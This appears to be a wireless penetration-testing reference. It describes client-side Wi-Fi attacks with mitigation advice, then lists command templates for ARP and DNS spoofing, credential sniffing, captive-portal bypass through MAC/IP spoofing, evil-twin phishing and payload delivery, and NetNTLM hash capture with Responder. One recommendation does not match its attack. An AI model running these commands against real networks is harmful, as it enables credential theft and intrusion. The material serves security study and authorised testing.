 ### Sidejacking (Client Attacks) - Sidejacking is a technique that exploits a security weakness in authenticated websites. When a user logs in, the connection is initially secure using HTTPS. However, after authentication, the connection is redirected to an unsecured HTTP connection. The initial cookie set during the secure HTTPS connection to keep track of the user's authenticated status is sent over HTTP, making it possible for an attacker to intercept and capture the cookie content. Sidejacking leverages a common vulnerability in authenticated websites where a user begins with a secure connection over HTTPS and redirects it to an HTTP connection after authentication. The initial cookie set during HTTPS authentication to track the authenticated status of the user is subsequently sent over HTTP for later site access, making it possible for an attacker to eavesdrop and capture the authenticated cookie content.
Recommendation:
To compensate for the lack of Layer 2 security, organizations need to implement more robust defenses at the upper layers. One way to limit the SSIDs that client devices connect to is by utilizing Group Policy functions and forbidding the connection to the "ANY" SSID. By doing so, end-users won't be able to connect to wireless networks that are not considered trustworthy. Educating users on the significance of confirming the identity of digital certificates before supplying sensitive information, ensuring that the root or issuing authority for the digital certificate is trusted.

### PSPF - Bypass (Client Attacks) - Public Secure Packet Forwarding (PSPF) delivers a private VLAN for each 802.11 client, preventing two clients connected to the same access point from direct communication with each other. Layer 3 routing filters and access control lists allow selective communication between clients. Using IPSec augments security in open-authentication networks.
In a wireless/IPSec environment, all traffic should traverse the IPSec gateway for security, which prevents direct attacks on client systems. However, attackers can still inject packets into the wireless network using any spoofed source MAC address and conducting ARP poisoning/spoofing attacks in an attempt to bypass restrictions.
Recommendation:
Utilize AP isolation on guest networks to isolate users from one another which also provides some protection against nefarious network users. AP Isolation is a wireless network security feature that isolates all connected clients from each other. Enabling this feature enhances network security by reducing the possibility of unauthorized access to data or devices within the network.

### PNL Exploitation (Client Attacks) - The Preferred Network List (PNL) is a list of network SSIDs and one or more other SSIDs used by the network SSID. The entries in the PNL are not a secret. However, all wireless clients will periodically scan for the presence of any available access points using the SSIDs in the PNL as part of the access point selection process. An attacker passively sniffing the network can observe these probe request frames and extract the SSIDs transmitted in plaintext to produce a list of SSIDs in the station's PNL.
Recommendation:
Currently, device manufacturers are working on addressing this vulnerability. Configuring devices to send probe requests without specified SSIDs; all APs respond. Randomizing MAC addresses in probe requests helps mitigate certain privacy risks associated with tracking the station's MAC address as it moves around an environment. Limit SSIDs in PNL with Group Policy, assuming users do not have administrator access to their systems. 

### Multiple SSID Impersonation (Client Attacks) - To impersonate multiple SSIDs, an attacker uses a particular wireless driver in master mode and responds to all probe requests regardless of their SSIDs. The attacker then attempts to lure client devices into a fake access point established to manipulate and compromise them.
Recommendation:
Ensure client devices maintain current patch levels. Use strong Layer 2 encryption, such as WPA or WPA2, which offers strong support for the privacy of wireless traffic and assists in mitigating some client-specific attacks. Deploy wireless IDSs (WIDS). Dedicated wireless IDSs can monitor for attacks and anomalous conditions that could indicate the presence of a zero-day attack, allowing administrators to detect and react to attacks.

### Standard MiTM Attacks ###
   - ARP Spoofing: Bettercap > arp.spoof module
      (Not needed when client connected to rogue AP because attacker already in position of MitM) 
   - DNS Spoofing: Bettercap > dns.spoof module
   - Credentials Sniffing:
      Bettercap > net.sniff module
      $ sudo pipenv run python Pcredz -i wlan0mon -v
      $ python net-creds.py -I <interface>
      $ dsniff -i <interface>
   - JS Injection: Bettercap > caplet beef-active

### Captive Portal Attacks ###
  MAC-based Authorization:
    1. Sniff network to find an authorized client identified by his MAC address
    2. Change interface MAC address:
      $ ifconfig wlan0 hw ether <authorized_MAC_Address> 
  
  IP-based Authorization:
    1. Activate IP forwarding
      $ echo 1 > /proc/sys/net/ipv4/ip_forward 
    2. MiTM (ARP cache poisoning) between gateway & authorized client:
      $ ettercap -T -q -i wlan0 -w dump -M ARP /<IP_authorized_client>/ /<IP_gateway>/
    3. All packets sent from the attacker will have to spoof the authorized client IP except for packets going in the LAN:
      $ iptables -t nat -A OUTPUT -d ! <LAN> -j SNAT –to <IP_authorized_client>
    4. Increments TTL:
      $ iptables -t mangle -A FORWARD -d -j TTL --ttl-inc 1;  
  
  MAC+IP-based Authorization:
    1. Turn interface into bridge mode:
      $ modprobe bridge
      $ brctl addbr br0
      $ brctl addif br0 <interface> 
    2. All frames sent by attacker to the gateway will have a spoofed source MAC address:
      $ ebtables -t nat -A POSTROUTING -o <interface> -d <MAC_gateway> -j snat –to-source <MAC_authorized_client>
    3. Then apply method for IP-based Authorization bypass 
  
  Phishing (Social Engineering):
    $ wifiphisher -aI <interface_rogue_AP> -eI <interface_deauthenticating> -iI <internet_interface> \ -p firmware-upgrade --handshake-capture handshake.pcap --essid <target_SSID> -kN
    $ wifipumpkin3 --xpulp "set interface wlan0; set ssid <SSID>; set proxy captiveflask; start"
    $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --captive-portal
    $ airgeddon.sh
    $ fluxion.sh
  
  Payload Delivery:
    $ wifiphisher -aI <interface_rogue_AP> -jI <interface_jamming> -p plugin_update --handshake-capture handshake.pcap -kN

### NetNTLM Hash Stealing ###
    Hostile Portal Attack (Redirect to SMB)
      $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --hostile-portal
        (HTTP traffic redirected to SMB share on attacker's machine)
      
    NBT-NS/LLMNR Poisoning
      $ Responder.py -I <interface> -wrf
